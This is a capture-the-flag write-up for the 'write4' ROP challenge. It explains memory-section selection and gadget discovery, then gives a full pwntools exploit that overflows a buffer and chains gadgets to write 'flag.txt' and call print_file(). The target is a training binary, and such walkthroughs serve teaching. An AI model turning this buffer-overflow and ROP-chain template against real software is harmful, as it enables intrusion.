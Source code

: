 # Write4
In this challenge, we are given a function to open arbitrary files (`print_file()`), with the goal of opening `flag.txt`. 
The difficult part is that the string `flag.txt` is nowhere to be found in the binary. 
We must thus use ROP to write the string to memory ourselves.

To solve this challenge, we must complete the following steps:
- Identify a memory location where we can write our string to.
- Write `flag.txt`.
- Put the pointer to our string in `rdi`.
- Call `print_file()`.

## Identifying suitable memory
Before we can write our string to memory, we must first identify some memory that we can write to without breaking anything. We can use radare2 to get a view of the memory sections:
```
$ r2 write4 
[0x00400520]> iS
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000238   0x1c 0x00400238   0x1c -r-- PROGBITS    .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- NOTE        .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- NOTE        .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- GNU_HASH    .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- DYNSYM      .dynsym
6   0x000003c0   0x7c 0x004003c0   0x7c -r-- STRTAB      .dynstr
7   0x0000043c   0x14 0x0040043c   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000450   0x20 0x00400450   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000470   0x30 0x00400470   0x30 -r-- RELA        .rela.dyn
10  0x000004a0   0x30 0x004004a0   0x30 -r-- RELA        .rela.plt
11  0x000004d0   0x17 0x004004d0   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x182 0x00400520  0x182 -r-x PROGBITS    .text
14  0x000006a4    0x9 0x004006a4    0x9 -r-x PROGBITS    .fini
15  0x000006b0   0x10 0x004006b0   0x10 -r-- PROGBITS    .rodata
16  0x000006c0   0x44 0x004006c0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000708  0x120 0x00400708  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f6 0x00000000  0x1f6 ---- STRTAB      .strtab
28  0x00001876  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```
Here we need to pick a segment with `rw`. Let's pick `.data` at  `0x601028` (`.got` and `.got.plt` could technically work, but is not as good of a choice as we might overwrite crucial memory. `.bss` could also be fine but only has room for 8 characters, so a null terminator won't fit after our string).

## Write to memory
Next we will go looking for a gadget that allows for writing to memory such as `mov [reg], reg`. This binary has two of such gadgets:
```
$ ropper -f write4 | grep mov

...
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
...
0x0000000000400628: mov qword ptr [r14], r15; ret; 
...
```
Both of these gadgets could be used for this challenge. We will use the one at `0x400629`, but the other one would have arguably been better as it allows for writing 64 bits instead of 32.
With this gadget, we can write to a pointer in `rsi` with the contents of `rdi/edi`. We will thus also need gadgets to fill `rsi` and `rdi/edi`.
...



We can write a function to write 4 bytes to a writable address using these gadgets as follows:
```
def write4bytes(writable_address, bytestr):
    pop_rsi_r15_gadget = 0x400691
    pop_rdi_gadget = 0x400693
    write_mov_gadget = 0x400629

    payload  = p64(pop_rsi_r15_gadget) # Load destination address into rsi
    payload += p64(writable_address)   # Pops write destination into rsi
    payload += p64(0x4141414141414141) # Garbage value for r15
    payload += p64(pop_rdi_gadget)     # Load 4 byte string into edi/rdi
    payload += p64(u32(bytestr))       # The 4 bytes to write
    payload += p64(write_mov_gadget)   # Trigger write
    return payload
```



```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
    #    'breakrva 0xoffset',
    #"continue"
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./write4"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Writes a dword. Alternatively, a gadget to write a qword can be used.
def write4bytes(writable_address, bytestr):
    pop_rsi_r15_gadget = 0x400691
    pop_rdi_gadget = 0x400693
    write_mov_gadget = 0x400629

    payload  = p64(pop_rsi_r15_gadget) # Load destination address into rsi
    payload += p64(writable_address)   # Pops write destination into rsi
    payload += p64(0x4141414141414141) # Garbage value for r15
    payload += p64(pop_rdi_gadget)     # Load 4 byte string into edi/rdi
    payload += p64(u32(bytestr))       # The 4 bytes to write
    payload += p64(write_mov_gadget)   # Trigger write
    return payload

io = start()

writable_address = 0x601028 # in .data segment
pop_rdi_gadget   = 0x400693
print_file_plt   = 0x400510

payload = b"A" * 40

# Stage 1, write "flag.txt" to writable_address
payload += write4bytes(writable_address  , b"flag")
payload += write4bytes(writable_address+4, b".txt")
#payload += write4bytes(writable_address+8, b"\x00\x00\x00\x00") # Seems unnecessary

# Stage 2, put writable_address in rdi and call print_file()
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
payload += p64(print_file_plt)


io.sendlineafter(b">", payload)
io.interactive()
...
